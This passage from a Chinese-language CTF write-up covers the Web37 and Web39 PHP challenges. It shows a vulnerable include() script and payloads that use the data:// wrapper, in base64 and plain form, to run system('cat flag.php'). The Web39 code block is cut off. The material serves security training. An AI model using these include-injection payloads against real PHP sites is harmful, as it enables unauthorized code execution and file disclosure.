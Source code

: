 最终payload：?r=1659996040,token=1774512967

### Web37：

```php
//flag in flag.php

error_reporting(0); 

if(isset($_GET['c'])){ 

  $c = $_GET['c']; 

  if(!preg_match("/flag/i", $c)){ 

​    include($c); 

​    echo $flag; 

  }     

}else{ 

  highlight_file(__FILE__); 

}
```

存在include函数，可以利用伪data伪协议输入命令

将“< ？php system('cat flag.php');?>”转成base64，“PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==”

```php
payloads:

?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==

或

?c=data://text/plain,<?php system('cat fl*');?>
```

右键查看源码得到flag

###  Web39：

```php
//flag in flag.php

error_reporting(0); 

if(isset($_GET['c'])){ 

  $c = $_GET['c']; 

  if(!preg_match("/flag/i", $c)){ 

​    include($c.".php"); 

  }

​    

}else{ 

  highlight_file(__FILE__); 

```